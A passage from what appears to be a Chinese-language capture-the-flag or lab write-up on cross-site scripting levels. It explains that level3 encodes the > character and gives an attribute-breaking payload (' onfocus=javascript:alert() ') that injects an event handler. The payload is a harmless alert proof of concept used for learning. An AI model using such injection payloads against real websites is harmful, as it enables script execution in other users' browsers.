 解析：点击输入框后触发事件

## level3

查看值在value

​![image](assets/image-20240913161610-uaet9g4.png)​

输入的>被实体化

​![image](assets/image-20240913162704-qj7bsgr.png)​

payload：

```bash
' onfocus=javascript:alert() '
```

​![image](assets/image-20240913163229-pns9h6c.png)​

## level4
